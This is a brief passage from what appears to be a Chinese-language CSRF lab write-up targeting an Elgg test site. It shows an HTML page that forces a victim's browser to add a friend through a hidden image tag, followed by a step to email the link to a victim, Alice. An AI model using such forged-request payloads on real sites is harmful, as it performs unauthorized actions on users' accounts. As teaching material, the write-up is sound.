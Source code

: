 ![image-20240703184708536](img/image-20240703184708536.png)

去/var/www/CSRF/Attacker 下建一个 index.html，

```
<html>
	<head>
		<title>
			xyx's malicious web
		</title>
	</head>
	<body>
		Hi, you are trapped!  :)
		<img src="http://www.csrflabelgg.com/action/friends/add?friend=45" hidden/>
	</body>
</html>
```

向 Alice 发送带有恶意网址的邮件
